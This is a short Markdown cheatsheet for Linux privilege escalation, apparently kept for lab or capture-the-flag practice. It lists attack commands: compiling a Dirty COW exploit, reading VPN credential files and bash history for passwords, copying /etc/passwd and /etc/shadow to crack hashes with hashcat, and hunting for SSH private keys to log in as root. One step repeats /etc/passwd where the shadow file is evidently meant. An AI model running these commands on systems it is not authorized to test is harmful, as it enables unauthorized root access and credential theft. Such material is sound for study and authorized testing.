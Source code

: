 # _Linux Privilege Escalation_ cheatsheet
> get used programs/scripts (& more) in `/tools`

<br>

## linux-privesc-suggestor
- https://github.com/The-Z-Labs/linux-exploit-suggester
- *detection*
  - `./linux-exploit-suggester.sh`
- *exploitation*
  - `gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w`


<br>

## openvpn config files
- `cat /home/user/myvpn.ovpn`
- `cat /etc/openvpn/auth.txt`
- `cat /home/user/.irssi/config | grep -i passw`


<br>

## bash history
- `cat ~/.bash_history | grep -i passw`


<br>

## weak file permissions
- *detection*
  - `ls -la /etc/shadow`
- *exploitation*
  - __target linux__
    - save/copy these files
      - `cat /etc/passwd`
      - `cat /etc/passwd`
  - __attacker linux__
    - `unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt`
    - `hashcat -m 1800 unshadowed.txt rockyou.txt -O`


<br>

## ssh keys
- *detection*
  - `find / -name authorized_keys 2> /dev/null`
  - `find / -name id_rsa 2> /dev/null`
- *exploitation*
  - __target linux__
    - save/copy these files
  - __attacker linux__
    - `chmod 400 id_rsa`
    - `ssh -i id_rsa root@<ip>`
